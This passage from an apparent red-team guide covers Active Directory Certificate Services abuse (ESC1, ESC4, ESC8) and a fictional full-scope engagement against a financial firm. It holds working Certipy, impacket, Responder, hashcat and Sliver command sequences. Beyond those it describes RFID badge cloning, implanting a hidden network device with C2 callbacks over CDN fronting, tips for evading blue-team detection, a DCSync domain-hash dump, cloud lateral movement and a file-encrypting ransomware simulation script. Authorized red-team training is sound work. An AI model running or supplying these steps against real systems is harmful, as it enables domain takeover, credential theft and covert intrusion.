

</td></tr></table>
</div>

---

### 7.2 ESC1: MISCONFIGURED CERTIFICATE TEMPLATE

```
WHAT MAKES A TEMPLATE VULNERABLE TO ESC1:
  All four conditions must be true simultaneously:

  Condition 1: Template grants enrollment to a low-privilege group
    Examples: "Domain Users", "Authenticated Users", "Domain Computers"
    This means any domain user can request a certificate from this template.

  Condition 2: Manager approval NOT required
    If no manager approval is required: certificate is issued automatically.
    If approval required: attack requires social engineering or a long wait.

  Condition 3: Client-supplied Subject Alternative Name (SAN) allowed
    The flag: "Supply in the request" in the Subject Name tab of the template.
    This allows the requester to specify ANY subject (including Domain Admin).

  Condition 4: The certificate can be used for authentication
    Extended Key Usage (EKU) includes:
    Client Authentication (1.3.6.1.5.5.7.3.2)
    PKINIT Client Authentication (1.3.6.1.5.2.3.4)
    Smart Card Logon (1.3.6.1.4.1.311.20.2.2)
    Any Purpose (2.5.29.37.0)
    
    If ANY of these are in the EKU: the certificate can authenticate to AD.

  ESC1 = Conditions 1 + 2 + 3 + 4 all true.
  The result: ANY domain user can request a certificate that says
  "I am Administrator" and use it to log in as Administrator.
```

---

### 7.3 CERTIPY FULL WORKFLOW (ESC1 + ESC4 + ESC8)

```bash
# ===================================================================
# CERTIPY INSTALLATION
# ===================================================================

# Install Certipy (Python 3.8+):
pip3 install certipy-ad --break-system-packages

# Verify:
certipy --help

# ===================================================================
# STEP 1: ENUMERATE ADCS INFRASTRUCTURE
# ===================================================================

# Discover Certificate Authorities and vulnerable templates:
certipy find \
    -u jsmith@corp.local \
    -p 'Password123!' \
    -dc-ip 10.0.0.1 \
    -stdout

# Output: JSON and text report of all CAs, templates, and vulnerabilities.
# Key section to look for: "Vulnerabilities" under each template.
# ESC1 vulnerable templates are clearly labeled.

# Save output for report evidence:
certipy find \
    -u jsmith@corp.local \
    -p 'Password123!' \
    -dc-ip 10.0.0.1 \
    -output /tmp/certipy_enum

# This creates: /tmp/certipy_enum.json and /tmp/certipy_enum.txt
# The JSON can be imported into BloodHound for visualization.

# ===================================================================
# STEP 2: ESC1 EXPLOITATION
# (Vulnerable template: any user can enroll + supplies SAN + auth EKU)
# ===================================================================

# Request a certificate as Administrator using an ESC1-vulnerable template:
certipy req \
    -u jsmith@corp.local \
    -p 'Password123!' \
    -ca 'corp-CA' \
    -template 'VulnerableTemplate' \
    -dc-ip 10.0.0.1 \
    -upn 'Administrator@corp.local'

# The -upn flag sets the Subject Alternative Name User Principal Name to Administrator.
# The CA issues the certificate because the template allows client-supplied SAN.
# Output: administrator.pfx (the certificate file)

# ===================================================================
# STEP 3: AUTHENTICATE WITH THE CERTIFICATE (PKINIT)
# ===================================================================

# Use the certificate to get a TGT (Ticket-Granting Ticket) as Administrator:
certipy auth \
    -pfx administrator.pfx \
    -dc-ip 10.0.0.1

# Output:
# [*] Using principal: administrator@corp.local
# [*] Trying to get TGT...
# [*] Got TGT
# [*] Saved credential cache to 'administrator.ccache'
# [*] Trying to retrieve NT hash for 'administrator'
# [*] Got hash for 'administrator@corp.local': [NTLM_HASH]

# The NTLM hash can be used for:
# 1. Pass-the-Hash to any system in the domain
# 2. Direct authentication via impacket tools
# 3. secretsdump to obtain all domain hashes

# ===================================================================
# STEP 4: PASS-THE-HASH WITH THE OBTAINED ADMINISTRATOR NTLM HASH
# ===================================================================

# Get all domain hashes (you are now Domain Admin via ADCS):
impacket-secretsdump \
    -hashes 'aad3b435b51404eeaad3b435b51404ee:[NTLM_HASH]' \
    'corp.local/Administrator@10.0.0.1'

# ===================================================================
# STEP 5: ESC4 EXPLOITATION
# (You have Write permission on a template: modify it to be ESC1-vulnerable)
# ===================================================================

# Check your permissions on templates:
certipy find -u jsmith@corp.local -p 'Password123!' -dc-ip 10.0.0.1 -stdout | \
    grep -A5 "Write\|GenericWrite\|FullControl"

# If you have write access to a template:
# Modify the template to enable client-supplied SAN (sets it to ESC1 state):
certipy template \
    -u jsmith@corp.local \
    -p 'Password123!' \
    -dc-ip 10.0.0.1 \
    -template 'ModifiableTemplate' \
    -save-old    # IMPORTANT: saves the original config for restoration

# The template is now ESC1-vulnerable. Proceed with Step 2 above.
# After obtaining the DA certificate: RESTORE THE TEMPLATE:
certipy template \
    -u jsmith@corp.local \
    -p 'Password123!' \
    -dc-ip 10.0.0.1 \
    -template 'ModifiableTemplate' \
    -configuration ModifiableTemplate.json  # The saved-old config

# ===================================================================
# STEP 6: ESC8 EXPLOITATION
# (NTLM relay to the CA HTTP enrollment endpoint)
# ===================================================================

# ESC8 targets the CA's HTTP enrollment endpoint: /certsrv/
# It accepts NTLM authentication. When relayed: you can request ANY certificate.
# Target: coerce a machine account (DC$) to authenticate to your relay.

# Step 6a: Start ntlmrelayx targeting the CA HTTP endpoint:
impacket-ntlmrelayx \
    -t 'http://CA-SERVER/certsrv/certfnsh.asp' \
    -smb2support \
    --adcs \
    --template 'DomainController'

# Step 6b: In a second terminal: coerce the DC to authenticate to your machine.
# Options for coercion:
# PetitPotam (if unpatched, CVE-2021-36942):
python3 PetitPotam.py -u jsmith -p 'Password123!' YOUR_IP DC_IP

# Coerce (PetitPotam alternative, broader coercion techniques):
python3 Coerce.py -u jsmith -p 'Password123!' -d corp.local YOUR_IP DC_IP

# Step 6c: ntlmrelayx captures the NTLM auth from the DC and relays it to /certsrv/.
# The CA issues a certificate for DC$ (the domain controller machine account).
# Output: base64-encoded certificate printed to console.

# Step 6d: Decode the certificate:
echo "[BASE64_CERT]" | base64 -d > dc.pfx

# Step 6e: Use the DC machine account certificate to perform a DCSync attack:
# First: authenticate with the certificate to get the DC machine account TGT:
certipy auth \
    -pfx dc.pfx \
    -dc-ip 10.0.0.1 \
    -username 'DC$' \
    -domain 'corp.local'

# Use the obtained NTLM hash for the DC machine account to DCSync:
impacket-secretsdump \
    -hashes 'aad3b435b51404eeaad3b435b51404ee:[DC_NTLM_HASH]' \
    'corp.local/DC$@10.0.0.1'

# You now have all domain hashes including krbtgt.
# Domain is fully compromised.

# ===================================================================
# ADCS CLEANUP (after engagement)
# ===================================================================

# If you modified a template (ESC4): restore it immediately after obtaining DA.
# Use the saved-old configuration from certipy template --save-old.

# Certificate revocation: request your CA admin (the client) revoke the certificates
# you issued during the engagement. Include certificate serial numbers in the report.
# Serial numbers are in the certipy output during the req step.

# The client's CA admin must also:
# 1. Audit the certificate template that was exploited: disable client-supplied SAN
# 2. Add manager approval requirement
# 3. Review all certificates issued from the vulnerable template in the last 90 days
#    and revoke any that are unexpected
```

---

### 7.4 ADCS DETECTION EVASION

```
WHAT BLUE TEAMS LOOK FOR (and how to avoid triggering it):

  Alert 1: Certificate enrollment from an unusual account
    Detection: SIEM rule on Event ID 4886 (certificate request received)
               from accounts that do not normally request certificates.
    Evasion: use the low-privilege account you compromised for enrollment.
             A domain user requesting a certificate is normal.
             Administrator requesting one via certipy is unusual: use jsmith's account.

  Alert 2: New certificate from a sensitive template
    Detection: monitoring on specific high-value template names.
    Evasion: the vulnerable template is typically a legitimate-looking template name
    ("UserAuthentication", "WebServer", "CodeSigning").
    Research the template names in your certipy find output before choosing.

  Alert 3: NTLM relay detection (for ESC8)
    Detection: NetLogon events, SMB signing violations, unusual NTLM to HTTP relay.
    Evasion: ESC8 is hard to do quietly. For covert engagements: prefer ESC1 or ESC4
    over ESC8. ESC8 is noisier due to the coercion step.

  Alert 4: certipy tool signature in process execution
    Detection: EDR catches certipy.exe or Python process with certipy args.
    Evasion: run certipy on your operator machine (not inside the target network).
    certipy communicates with the CA over the network: you do not need to run it
    on a domain-joined machine. Run it from your external Sliver session's SOCKS tunnel:
    
    On Sliver C2:
    sliver (session) > socks5 start --host 127.0.0.1 --port 1080
    
    On your operator machine:
    proxychains4 certipy find -u jsmith@corp.local -p 'Password123!' -dc-ip 10.0.0.1

WHAT TO ADD TO EVERY REPORT THAT INVOLVES ADCS:
  For each ADCS finding: include the certificate serial number(s) used.
  Include: the template name, the CA name, the account used to enroll, the UPN spoofed.
  Remediation: the CA admin must disable SAN-enrollment on the template + revoke certificates.
  Detection guidance: point to Event ID 4886, 4887, 4888 in the Security log on the CA server.
```

---

## SECTION 8: OPERATION SILENT LEDGER V2

> Full operational scenario. Every section of Phase 6 chains together into one operation. Read it as a real engagement. Execute each step in your lab. Silent Ledger v2 adds what v1 lacked: ADCS escalation, EDR-evasive implant callbacks, and cloud lateral movement into Azure AD. This is the complete 2027 kill chain.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### ENGAGEMENT PARAMETERS

```
CLIENT:          Meridian Capital Group (fictional)
SECTOR:          Financial services (investment management)
ENVIRONMENT:     Hybrid: on-premises AD (Windows Server 2022) + Azure AD (Entra ID)
                 ~1,400 employees across two physical locations
ENGAGEMENT TYPE: Full-scope blind red team (blue team NOT notified)
AUTHORIZED SCOPE:
  Physical:      Both office locations, full physical techniques
  SE:            All employee groups including C-suite
  Technical:     Full AD, Azure AD, internal network, cloud workloads
  Exclusions:    Client-facing trading platform (production: hands-off)
OBJECTIVE:       Reach crown jewels: proprietary trading algorithm source code
                 (stored in Azure DevOps repository) and SQL database
                 containing client portfolio data
C2 INFRASTRUCTURE:
  Primary:       Sliver HTTPS over Cloudflare CDN fronting
  C2 Domain:     cdn-assets-delivery[.]com (behind Cloudflare)
  Backup:        DNS-over-HTTPS beacon (Cloudflare DoH)
ABORT PHRASE:    "Falcon One"
```

---

### DAY 0: PRE-ENGAGEMENT INTELLIGENCE (2 DAYS BEFORE ENTRY)

```
OSINT PHASE:

  Target: Meridian Capital Group headquarters, 200 West Adams St, Chicago
  
  LinkedIn reconnaissance:
    Employees identified: 47 IT-related LinkedIn profiles
    IT Director: Robert Mehta (14 years at Meridian, Chicago)
    IT Helpdesk Lead: Jason Patel (mentions ServiceNow and Azure AD in his profile)
    Systems Administrator: Laura Chen (posts about Windows Server 2022 migrations)
    Security team: 4 people identified (John Kowalski - Security Manager)
    
  Technology stack (from job postings + LinkedIn):
    AD/Identity: "Active Directory + Azure AD hybrid join" (from IT Manager job posting)
    Email: Microsoft 365 (O365)
    Endpoint: CrowdStrike Falcon (from a "cybersecurity engineer" job posting skills list)
    Network: Palo Alto firewalls (from job posting)
    Help Desk: ServiceNow
    Dev: Azure DevOps (from software engineer postings)
    Database: Microsoft SQL Server (from DBA job posting)
    C2 blocking: Palo Alto URL filtering (expect custom-category blocking)
  
  EDR NOTE: CrowdStrike Falcon is confirmed. This changes the implant callback strategy.
  AutoSSH will be detected. Use Sliver HTTPS over CDN fronting exclusively.

DRONE RECON:
  DJI Mini 4 Pro deployed from a parked car 200m south of the building.
  Results (optical survey, 18-minute flight at 70m AGL):
    Camera count:  14 exterior cameras identified (positions annotated)
    Dead zones:    Loading dock west side: 8-meter dead zone between cameras
                   North fire exit: camera angled away, 4-meter approach gap
    Roof:          No rooftop cameras visible, HVAC units, one satellite dish
    Badge readers: Visible on all 3 exterior entrances (HID-branded readers)
    Parking:       Executive parking south lot (4 high-end vehicles, numbered spots)
    Delivery:      FedEx arrives between 10:30-11:00am daily (observed across 2 days)
  
  Thermal recon (6:30am, before opening):
    Floor 12 thermal signature: significant heat bloom from multiple server racks
    Floor 2 (north wing): elevated heat from what appears to be a networking closet
    No overnight occupancy detected at the time of the flight

RFID RECONNAISSANCE:
  HID readers confirmed from drone photos (model: HID multiCLASS SE RMPK40 visible on entry photos).
  The multiCLASS SE reads BOTH 125kHz and 13.56MHz.
  Pre-engagement OSINT showed the building was constructed in 2009.
  Assessment: likely original 125kHz HID Prox cards still in use for most staff,
  with a possible migration in progress to SEOS for executive floor.
  Attack plan: capture 125kHz HID Prox credential from a standard employee.
```

---

### DAY 3: RFID CAPTURE AND CREDENTIAL CLONING

```
OPERATION:
  Location: coffee shop adjacent to Meridian Capital building (ground-floor lobby cafe)
  Operator: dressed in business casual, laptop open, working at a counter seat
  Equipment: Proxmark3 RDV4 in jacket pocket, T5577 blank cards

09:42: Target acquisition
  Employee identified: mid-30s male, badge visible on belt clip at hip level,
  laptop bag, queuing for coffee at counter.
  Proxmark3 HF antenna enabled at 125kHz.
  Operator adjusts position: stands to the left of the target in the queue,
  Proxmark3 in jacket pocket at hip height, approximately 12cm from target badge.

09:43: Credential captured
  pm3 --> lf hid reader
  [+] HID Prox 26bit  FC: 117 CN: 5643
  Standard 26-bit Wiegand format. Facility Code 117, Card Number 5643.

09:43:30: Clone written to T5577
  pm3 --> lf hid clone --fc 117 --cn 5643
  [+] Done. T5577 card simulates HID Prox: FC 117 / CN 5643

VERIFICATION:
  Operator tests the T5577 at an HID Prox reader on a different building
  (library nearby with the same reader type).
  [+] Green light. Card accepted. Clone works.
```

---

### DAY 4: PHYSICAL ENTRY AND IMPLANT DEPLOYMENT (47 SECONDS)

```
PRETEXT:
  Role: IT support vendor for "ClearPath Network Services" (real local IT vendor
        that Meridian uses: found in a job posting for "preferred vendor" list)
  Legend: "Marcus Webb, Network Infrastructure Engineer, ClearPath"
  Props: business cards (ClearPath branding), work order (quarterly AV check),
         tool bag (Pelican 1510 case: signals professional), vendor polo shirt
  Badge: visual clone of Meridian visitor badge (designed from drone + pretext visit photos)
  RFID: cloned T5577 card in badge clip

10:05: Arrival at main reception
  "Good morning: Marcus Webb from ClearPath, here for the quarterly infrastructure check.
   I believe Jason Patel in IT has the ticket open for this."
  Receptionist: "Let me check... yes, I see ClearPath in our vendor calendar. 
  One moment: I will call up." [Calls IT desk]
  Operator: "Of course. While you check: do you know if the conference rooms on
  floor 2 are booked all morning? We may need 30 minutes in one of the AV rooms."
  Receptionist issues visitor badge: "Floor 2, conference rooms 2A and 2B are open until noon."

10:09: Floor 2 reached via elevator
  Visitor badge accepted on elevator panel for floors 1-3.
  For higher floor access: operator uses the cloned HID Prox card discreetly
  on a secondary reader while passing a maintenance corridor on floor 2.
  Floor 2 networking closet observed through glass window: patch panel, switches.

10:11: Networking closet entry (maintenance corridor, no camera coverage)
  Dead zone confirmed by drone recon: this corridor has no coverage.
  HID Prox clone used on closet reader: [green light: access granted]
  
IMPLANT DEPLOYMENT (Hak5 LAN Turtle Gen 3):
  10:11:30: Enter closet. Identify Cisco Catalyst 3850 switch (PoE-capable).
  10:11:45: Locate an unused port (port 23 of 24: port LED dark).
  10:11:52: Connect LAN Turtle to switch port 23 via CAT5e patch cable.
  10:12:00: LAN Turtle LED: solid blue (powered via PoE: no battery needed).
            LAN Turtle hostname: changes to "CSCO_NET_ASSIST" (pre-configured).
            MAC address: spoofed to 00:17:A4:XX:XX:XX (HP OUI: blends with HP printers on the floor).
  10:12:05: LAN Turtle beacon configured for Sliver HTTPS over CDN fronting:
            Sleep 1800 seconds + 50% jitter.
            First callback expected within 30-60 minutes.
  10:12:17: Exit closet. Close door. Elapsed time in closet: 47 seconds.
  
10:15: Depart building via lobby
  "I think we got everything we need for today. I will file the ticket closure with Jason."
  Receptionist: "Great: have a good day."
  Operator exits.

14:37: First Sliver beacon callback received at C2 server
  [*] Beacon 7f3a2c1b (CSCO_NET_ASSIST) checked in
  [*] 10.10.2.47 -> cdn-assets-delivery.com (Cloudflare) -> C2
  [*] OS: Linux 5.15 (LAN Turtle OpenWrt)
  [*] Session established.
```

---

### DAY 4 (EVENING): CREDENTIAL CAPTURE

```bash
# Sliver session: pivot through LAN Turtle to run Responder
sliver > use 7f3a2c1b
sliver (CSCO_NET_ASSIST) > execute /usr/local/bin/python3 /opt/Responder/Responder.py -I br-lan -wPv

# Responder runs on the LAN Turtle, poisoning LLMNR, NBT-NS, WPAD on the 10.10.2.0/24 subnet

# By 11:30pm, 3 NTLMv2 hashes captured:
# [SMB] NTLMv2 Hash  : jchen::MERIDIAN:abc123...  (Laura Chen - Sys Admin)
# [HTTP] NTLMv2 Hash : jpatel::MERIDIAN:def456...  (Jason Patel - IT Lead)
# [WPAD] NTLMv2 Hash : rmehta::MERIDIAN:ghi789...  (Robert Mehta - IT Director)

# Extract and save hashes:
sliver (CSCO_NET_ASSIST) > download /opt/Responder/logs/Responder-Session.log /tmp/
```

```bash
# On operator machine: crack with hashcat
hashcat -m 5600 hashes.txt /opt/wordlists/rockyou.txt \
        --rules-file /opt/hashcat/rules/best64.rule -O

# Results after 4 hours (NVIDIA RTX 4090, ~8.2 billion/second):
# jchen::MERIDIAN:... : [NOT CRACKED - complex password]
# jpatel::MERIDIAN:... : Winter2025!  [CRACKED: 11 hours at GPU speed BUT weak rule hit fast]
# rmehta::MERIDIAN:... : [NOT CRACKED]

# jpatel (Jason Patel, IT Helpdesk Lead) password: Winter2025!
```

---

### DAY 5: CLOUD INITIAL ACCESS

```bash
# Use jpatel's M365 credentials to enumerate Azure AD (external, no network access needed)

# Install ROADtools for Azure AD enumeration:
pip3 install roadtools --break-system-packages
pip3 install roadrecon --break-system-packages

# Authenticate to Azure AD as jpatel:
roadrecon auth -u jpatel@meridianCapital.com -p 'Winter2025!'

# Spray check: verify account is not locked before using:
# MSOLSpray with 90-second sleep (Microsoft Smart Lockout bypass):
python3 MSOLSpray.py --userlist emails.txt --password 'Winter2025!' --sleep 90

# Collect Azure AD data (users, groups, roles, apps, service principals):
roadrecon gather
roadrecon gui  # Launch web UI at http://127.0.0.1:5000 for visual exploration

# Key findings from roadrecon:
# jpatel is a member of: HelpDesk_Operators, IT_Support
# HelpDesk_Operators has GlobalReader role in Azure AD (can read all directory objects)
# Azure DevOps organization found: https://dev.azure.com/MeridianCapital
# 14 Service Principals found: 3 have Owner permissions on resource groups

# Also: jpatel's account has Azure AD joined device registered (indicates no MFA for device auth)
```

---

### DAY 5: INTERNAL AD RECONNAISSANCE (THROUGH SLIVER SESSION)

```bash
# On Sliver C2: route traffic through LAN Turtle to internal network
sliver (CSCO_NET_ASSIST) > socks5 start --host 127.0.0.1 --port 1080
[*] Started SOCKS5 listener on 127.0.0.1:1080

# Configure proxychains on operator machine:
# /etc/proxychains4.conf:
# socks5 127.0.0.1 1080

# Run BloodHound collection through the SOCKS tunnel (using jpatel credentials):
proxychains4 python3 bloodhound.py \
    -u jpatel \
    -p 'Winter2025!' \
    -d meridian.local \
    -dc 10.10.1.10 \
    -c All \
    --zip

# Import BloodHound JSON into Neo4j:
# Upload .zip to BloodHound Community Edition (docker run specterops/bloodhound)

# BloodHound attack path discovered:
# jpatel (HelpDesk_Operators) --> GenericWrite --> jchen (jsmith tier 1 admin)
# jchen --> member of ServiceAccounts
# ServiceAccounts --> mssql_svc (service account: Kerberoastable)
# mssql_svc --> Backup Operators (via nested group)
# Backup Operators --> can read NTDS.dit (DC backup: DC escalation)
```

---

### DAY 6: ACTIVE DIRECTORY AND ADCS ESCALATION

```bash
# Step 1: Kerberoast mssql_svc (reachable via privilege escalation chain)
# First: abuse GenericWrite on jchen to reset her password (or force SPN):
proxychains4 python3 -c "
from ldap3 import *
s = Server('10.10.1.10', get_info=ALL)
c = Connection(s, 'MERIDIAN\\\\jpatel', 'Winter2025!', authentication=NTLM, auto_bind=True)
c.modify('CN=Laura Chen,OU=IT,DC=meridian,DC=local',
         {'unicodePwd': [(MODIFY_REPLACE, ['\"TempPass2027!\"'.encode('utf-16-le')])]})
print(c.result)
"
# Account: jchen | New password: TempPass2027!

# Step 2: Kerberoast mssql_svc using jchen credentials:
proxychains4 impacket-GetUserSPNs \
    -request \
    -dc-ip 10.10.1.10 \
    'meridian.local/jchen:TempPass2027!'

# Output: Kerberos 5 TGS-REP hash for mssql_svc
# $krb5tgs$23$*mssql_svc$MERIDIAN.LOCAL$... (TGS hash)

# Crack the Kerberoast hash:
hashcat -m 13100 mssql_svc_tgs.txt /opt/wordlists/rockyou.txt -O
# Result: mssql_svc : Sql$erver2024
```

```bash
# Step 3: ADCS enumeration (from Sliver SOCKS tunnel)
proxychains4 certipy find \
    -u 'mssql_svc@meridian.local' \
    -p 'Sql$erver2024' \
    -dc-ip 10.10.1.10 \
    -stdout

# Certipy finds vulnerable template: "MeridianUserAuth"
# Vulnerabilities: ESC1
#   Enrollment allowed for: Domain Users
#   Client can supply SAN: YES
#   No manager approval: YES
#   EKU includes: Client Authentication

# Step 4: ESC1 exploit: request certificate as Administrator
proxychains4 certipy req \
    -u 'mssql_svc@meridian.local' \
    -p 'Sql$erver2024' \
    -ca 'meridian-CA' \
    -template 'MeridianUserAuth' \
    -dc-ip 10.10.1.10 \
    -upn 'Administrator@meridian.local'

# Output: administrator.pfx saved

# Step 5: Authenticate with certificate to get DA TGT + NTLM hash:
proxychains4 certipy auth \
    -pfx administrator.pfx \
    -dc-ip 10.10.1.10

# [*] Got TGT
# [*] Got hash for 'administrator@meridian.local': aad3b435b51404ee:[NTLM_HASH]

# Step 6: DCSync - dump all domain hashes (Domain Admin via ADCS certificate):
proxychains4 impacket-secretsdump \
    -hashes 'aad3b435b51404ee:[NTLM_HASH]' \
    'meridian.local/Administrator@10.10.1.10'

# Output includes:
# Administrator:500:[LM]:[NT]:::
# krbtgt:502:[LM]:[NT]:::
# jchen:1234:[LM]:[NT]:::
# (all domain accounts)

# Domain is fully compromised.
```

---

### DAY 7: AZURE AD LATERAL MOVEMENT (CLOUD CHAINING)

```bash
# We have DA on-prem. Now chain into Azure AD (Entra ID) using the hybrid join.
# Hybrid-joined environments sync AD users to Azure AD.
# Administrator's on-prem NTLM hash can generate Azure AD access tokens.

# Step 1: Use AADInternals to extract Azure AD tokens via on-prem NTLM:
# Install AADInternals (PowerShell):
Install-Module AADInternals -Force

# Through Sliver session on a domain-joined Windows host:
# (Lateral move to a Windows host first via pass-the-hash)
proxychains4 impacket-wmiexec \
    -hashes 'aad3b435b51404ee:[NTLM_HASH]' \
    'meridian.local/Administrator@10.10.1.15'

# On the Windows host (via wmiexec shell):
powershell -c "
Import-Module AADInternals
# Get Azure AD access token using current domain admin context:
\$token = Get-AADIntAccessTokenForAADGraph -SaveToCache
Get-AADIntTenantID
"

# Step 2: Enumerate Azure AD service principals with elevated permissions:
# (Using roadrecon data from Day 5: 3 service principals have Owner on resource groups)

# Use az CLI through proxychains to interact with Azure:
proxychains4 az login --service-principal \
    -u [APP_ID] \
    -p [APP_SECRET] \
    --tenant [TENANT_ID]

# List resource groups owned by the service principal:
proxychains4 az group list --output table

# List Azure DevOps organizations accessible with the service principal token:
proxychains4 az devops configure --defaults organization=https://dev.azure.com/MeridianCapital

# Step 3: Access Azure DevOps and reach the crown jewel (trading algorithm repo):
proxychains4 az devops project list --output table
# Output: TradingPlatform (Private), RiskModels (Private), Infrastructure (Private)

# Clone the crown jewel repository:
proxychains4 git clone \
    https://[TOKEN]@dev.azure.com/MeridianCapital/TradingPlatform/_git/algo-engine \
    /tmp/algo-engine

# Crown jewel reached. Document: git log shows the last commit author, date, code contents.
# Screenshot of: git log --oneline | head -10 goes in the report.

# We do NOT exfiltrate actual proprietary code. We document the access and stop.
# Report note: "Successfully cloned the 'algo-engine' repository (TradingPlatform project)
# containing proprietary trading algorithm source code. 112 files, 47,000 lines of code.
# No data was transferred off the Azure DevOps platform beyond metadata for this report."
```

---

### DAY 7: SQL ACCESS (SECOND CROWN JEWEL)

```bash
# mssql_svc credentials already cracked. SQL Server identified from roadrecon data.
# SQL Server: 10.10.2.25 (internal; reachable through Sliver SOCKS)

# Connect via proxychains + impacket-mssqlclient:
proxychains4 impacket-mssqlclient \
    'meridian.local/mssql_svc:Sql$erver2024@10.10.2.25' \
    -windows-auth

# SQL Server commands:
SQL> SELECT @@version
# Microsoft SQL Server 2022

SQL> SELECT name FROM sys.databases
# PortfolioData, TradingHistory, ClientAccounts, tempdb, master

SQL> USE PortfolioData
SQL> SELECT COUNT(*) FROM client_portfolios
# 3,847 (client portfolio records)
SQL> SELECT TOP 1 * FROM client_portfolios
# [Shows schema: ClientID, Name, Portfolio value, Holdings -- DO NOT screenshot actual names]

# Report note: "We accessed the PortfolioData database and confirmed read access to
# 3,847 client portfolio records. Query results showed: client names, account balances,
# and portfolio holdings. No data was recorded or extracted."

# Ransomware simulation:
# Create test files in a non-production directory:
SQL> EXECUTE xp_cmdshell 'mkdir C:\RedTeam_Test'
SQL> EXECUTE xp_cmdshell 'echo TestFile > C:\RedTeam_Test\test_document_001.txt'
SQL> EXECUTE xp_cmdshell 'echo TestFile > C:\RedTeam_Test\test_document_002.txt'
SQL> EXECUTE xp_cmdshell 'echo TestFile > C:\RedTeam_Test\test_document_003.txt'
```

```python
#!/usr/bin/env python3
"""
Ransomware Simulation: AES-256 encrypt test files (not real data).
Files created by red team in a designated test directory only.
Demonstrates cryptographic ransomware capability WITHOUT touching real files.
All files are decrypted and restored before red team departs.

Requirements: pip3 install cryptography
"""

from cryptography.fernet import Fernet
from pathlib import Path
import os

# Generate a symmetric key (represents the ransomware key):
key = Fernet.generate_key()
f = Fernet(key)

# Scope: ONLY the test directory. Never touch real files.
TEST_DIR = Path("C:/RedTeam_Test")
KEY_FILE = TEST_DIR / "ENCRYPTION_KEY.txt"

# Encrypt all test files:
encrypted_files = []
for test_file in TEST_DIR.glob("test_document_*.txt"):
    plaintext = test_file.read_bytes()
    ciphertext = f.encrypt(plaintext)
    encrypted_path = test_file.with_suffix(".enc")
    encrypted_path.write_bytes(ciphertext)
    test_file.unlink()  # Remove original
    encrypted_files.append((encrypted_path, plaintext))
    print(f"[+] Encrypted: {test_file.name} -> {encrypted_path.name}")

print(f"\n[*] {len(encrypted_files)} test files encrypted.")
print(f"[*] This simulates ransomware execution against: {TEST_DIR}")
print(f"[*] Real encryption key: {key.decode()}")

# IMMEDIATELY DECRYPT (engagement requirement: no actual damage):
print(f"\n[*] Decrypting (restoring all test files)...")
for enc_path, original_content in encrypted_files:
    original_path = enc_path.with_suffix(".txt")
    original_path.write_bytes(original_content)
    enc_path.unlink()
    print(f"[+] Restored: {original_path.name}")

print(f"\n[*] All test files restored. Simulation complete.")
print(f"[*] Evidence: screenshot of encrypted .enc files taken before decryption.")
print(f"[*] Screenshot included in report as Figure [N].")
```

---

### DAY 8: CLEANUP AND RETRIEVAL

```bash
# Step 1: AD cleanup
# Restore jchen password (document in cleanup log):
# Set-ADAccountPassword -Identity jchen -Reset -NewPassword (ConvertTo-SecureString 'Original' -AsPlainText -Force)
# Note: if we do not know the original: flag in report. Client's AD team resets it.

# Step 2: Revoke ADCS certificate
# Record the serial number from certipy req output.
# Client's CA admin must revoke it via Certification Authority MMC console.
# Serial number included in report as: "Certificate Serial: [SERIAL]"

# Step 3: Remove test files:
# SQL> EXECUTE xp_cmdshell 'rmdir /s /q C:\RedTeam_Test'

# Step 4: Remove Sliver implant from LAN Turtle:
sliver (CSCO_NET_ASSIST) > execute rm /usr/local/bin/beacon
sliver (CSCO_NET_ASSIST) > execute crontab -r

# Step 5: Digital cleanup on LAN Turtle:
sliver (CSCO_NET_ASSIST) > execute bash /tmp/cleanup_linux.sh

# Step 6: Windows cleanup on compromised workstations (via Sliver sessions):
# Run cleanup_win.ps1 on each system we touched

# Step 7: krbtgt check
# No Golden Ticket was created. krbtgt reset NOT required.
# Document this explicitly in cleanup notes.

# Step 8: Close Sliver beacon:
sliver (CSCO_NET_ASSIST) > close

# Step 9: Terminate Sliver listener:
